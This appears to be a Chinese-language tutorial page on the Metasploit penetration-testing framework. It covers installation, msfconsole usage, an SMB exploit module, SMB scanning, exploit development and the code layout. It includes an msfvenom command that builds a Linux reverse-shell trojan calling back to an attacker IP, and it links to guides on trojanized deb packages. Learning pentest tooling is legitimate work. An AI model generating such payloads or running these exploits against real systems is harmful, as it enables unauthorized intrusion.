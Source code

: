 ```yaml
---
layout: post
title: Metasploit
permalink: msf
---
```


Metasploit 将渗透测试的过程标准化自动化，每一步都有相应的代码对应，并提供了基础库，可以很方便的扩展。

它是一个渗透测试的集大成者，即是工具，有时学习的框架。

# 安装

- 使用 [kali Linux](https://www.kali.org/)
- 从[代码](https://github.com/rapid7/metasploit-framework)安装开发版。
- [安装社区版](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers)。

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

之后就可以：

```bash
# 进入命令行
msfconsole
```

需要更新的话在 shell 里运行：

```bash
# 更新
msfupdate
```

## 配置
安装代码开发版的话，配置文件在 $HOME/.msf4 下，可以去设置数据库等。

### 数据库
配置好 database.yml 后，打开 msfconsole，它会自动创建数据库的。

如果显示 'Module database cache not built yet, using slow search'，则需要更新查找缓存：

```bash
msf > db_rebuild_cache
```

## 其它

- msfvenom 木马生成

```bash
# 生成一个木马程序
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=192.168.0.1 LPORT=443 -b "\x00" -f elf -o /tmp/evil/evil
```

# 基础

- target 待攻击目标
- exploit 利用漏洞，攻破目标的漏洞利用方式
- payload 有效载荷，一般是 shellcode，攻破目标后载入从而获得进一步控制


# 使用

msfconsole 主要使用步骤：

- scan 扫描目标
- search 找到合适的 exploit
- use 选择漏洞
- show options 查看需要设置的参数
- set 设置参数
  - PAYLOAD  攻击后执行的载荷
  - RHOST(S) 目标地址
  - THREADS
  - LHOST    攻击者的 IP
  - LPORT    攻击者的 端口
- exploit(run) 攻击

## 一个例子
进入命令行：

```bash
msfconsole
```


exploit 都存在 modules/exploits 目录里。

使用时，在命令行里：

```
msf > use  exploit/windows/smb/ms09_050_smb2_negotiate_func_index
msf exploit(ms09_050_smb2_negotiate_func_index) > help
...snip...
Exploit Commands
================

    Command       Description
    -------       -----------
    check         Check to see if a target is vulnerable
    exploit       Launch an exploit attempt
    pry           Open a Pry session on the current module
    rcheck        Reloads the module and checks if the target is vulnerable
    reload        Just reloads the module
    rerun         Alias for rexploit
    rexploit      Reloads the module and launches an exploit attempt
    run           Alias for exploit

msf exploit(ms09_050_smb2_negotiate_func_index) >
```

- [一个简单的例子](https://www.offensive-security.com/metasploit-unleashed/shell/)
- [构造 deb 安装包来安装木马](https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/)

## Scan —— 扫描
Scanners and most other auxiliary modules use the RHOSTS option instead of RHOST. RHOSTS can take IP ranges (192.168.1.20-192.168.1.30), CIDR ranges (192.168.1.0/24), multiple ranges separated by commas (192.168.1.0/24, 192.168.3.0/24), and line separated host list files (file:/tmp/hostlist.txt). This is another use for our grepable Nmap output file.

Note also that, by default, all of the scanner modules will have the THREADS value set to ‘1’. The THREADS value sets the number of concurrent threads to use while scanning. Set this value to a higher number in order to speed up your scans or keep it lower in order to reduce network traffic but be sure to adhere to the following guidelines:

Keep the THREADS value under 16 on native Win32 systems
Keep THREADS under 200 when running MSF under Cygwin
On Unix-like operating systems, THREADS can be set to 256.

扫描 smb 版本：

```bash
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(smb_version) > set RHOSTS 192.168.1.200-210
RHOSTS => 192.168.1.200-210
msf auxiliary(smb_version) > set THREADS 11
THREADS => 11
msf auxiliary(smb_version) > run
```

## Search


# 编写自己的 exploit

做到极简隐秘等，并尽量利用已有的库：

-Capture – sniff network packets
-Lorcon – send raw WiFi frames
-MSSQL – talk to Microsoft SQL servers
-KernelMode – exploit kernel bugs
-SEH – structured exception handling
-NDMP – the network backup protocol
-EggHunter – memory search
-FTP – talk to FTP servers
-FTPServer – create FTP servers

只需要继承相应的类，重写 initialize 和 run、exploit 和 check 方法。

- initialize 编写相关信息和需要提供的参数等等
- check 判断是否存在当前的漏洞
- run 执行，默认绑定 exploit
- exploit 利用

并且 Metasploit 提供了很多好用的库，比如 TCP 网络链接的，编码的，模糊测试的等等。


# 代码分析

## 目录结构

```
data: Metasploit 使用的可以编辑的文件。
documentation: 具体的开发使用文档。
external: 源码及第三方库。
lib: 构建 Metasploit 框架的“肉”
modules: 真正的 MSF modules
  - auxiliary 没有 payload 的 exploit
  - exploit 攻击
  - payload
  - post 攻击后的进一步操作，比如权限提升
plugins: 在运行时可以载入的插件
scripts: Meterpreter 以及其它脚本
tools: 多种有用的命令行集合
```

## Libraries

The MSF libraries help us to run our exploits without having to write additional code for rudimentary tasks, such as HTTP requests or encoding of payloads.

### Rex

- The basic library for most tasks
- Handles sockets, protocols, text transformations, and others
- SSL, SMB, HTTP, XOR, Base64, Unicode

### Msf::Core

- Provides the ‘basic’ API
- Defines the Metasploit Framework

### Msf::Base

- Provides the ‘friendly’ API
- Provides simplified APIs for use in the Framework


# 参考
- https://www.offensive-security.com/metasploit-unleashed/
